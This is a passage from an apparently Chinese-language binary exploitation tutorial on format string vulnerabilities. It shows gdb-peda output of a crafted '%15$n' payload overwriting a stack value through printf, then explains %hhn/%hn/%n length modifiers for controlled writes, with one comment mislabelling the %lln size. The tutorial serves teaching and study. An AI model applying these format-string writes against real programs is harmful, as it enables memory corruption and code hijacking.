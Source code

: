 ```text
0xffffd54c:     0x080484b0      0xf7ffda54      0x00000001      0x424135d0
0xffffd55c:     0x00004443      0x00000000      0x31254141      0x416e2435
0xffffd56c:     0xffffd538      0xffffd500      0x00000001      0x000000c2
gdb-peda$ finish
Run till exit from #0  0xf7e27c20 in printf () from /usr/lib32/libc.so.6
[----------------------------------registers-----------------------------------]
EAX: 0x7
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x0
EDX: 0xf7f98830 --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd530 --> 0xffffd564 ("AA%15$nA8\325\377\377")
EIP: 0x8048520 (<main+138>:     add    esp,0x20)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048514 <main+126>:        lea    eax,[ebp-0x94]
   0x804851a <main+132>:        push   eax
   0x804851b <main+133>:        call   0x8048350 <printf@plt>
=> 0x8048520 <main+138>:        add    esp,0x20
   0x8048523 <main+141>:        sub    esp,0xc
   0x8048526 <main+144>:        push   0xa
   0x8048528 <main+146>:        call   0x8048370 <putchar@plt>
   0x804852d <main+151>:        add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0xffffd530 --> 0xffffd564 ("AA%15$nA8\325\377\377")
0004| 0xffffd534 --> 0x1
0008| 0xffffd538 --> 0x2
0012| 0xffffd53c --> 0xffffffff
0016| 0xffffd540 --> 0xffffd55a ("ABCD")
0020| 0xffffd544 --> 0xffffd564 ("AA%15$nA8\325\377\377")
0024| 0xffffd548 --> 0x80481fc --> 0x38 ('8')
0028| 0xffffd54c --> 0x80484b0 (<main+26>:      add    ebx,0x1b50)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048520 in main ()
gdb-peda$ x/20x $esp
0xffffd530:     0xffffd564      0x00000001      0x00000002      0xffffffff
0xffffd540:     0xffffd55a      0xffffd564      0x080481fc      0x080484b0
0xffffd550:     0xf7ffda54      0x00000001      0x424135d0      0x00004443
0xffffd560:     0x00000000      0x31254141      0x416e2435      0xffffd538
0xffffd570:     0xffffd500      0x00000001      0x000000c2      0xf7e70240
```

对比 `printf()` 函数执行前后的输出，可以看到我们成功地给 `arg2` 赋值了 `0x00000002`。

说完了数字小于 4 时的覆盖，接下来说说大数字的覆盖。前面的方法教我们直接输入一个地址的十进制就可以进行赋值，可是，这样占用的内存空间太大，往往会覆盖掉其他重要的地址而产生错误。其实我们可以通过长度修饰符来更改写入的值的大小：

```c
char c;
short s;
int i;
long l;
long long ll;

printf("%s %hhn\n", str, &c);       // 写入单字节
printf("%s %hn\n", str, &s);        // 写入双字节
printf("%s %n\n", str, &i);         // 写入4字节
printf("%s %ln\n", str, &l);        // 写入8字节
printf("%s %lln\n", str, &ll);      // 写入16字节
```
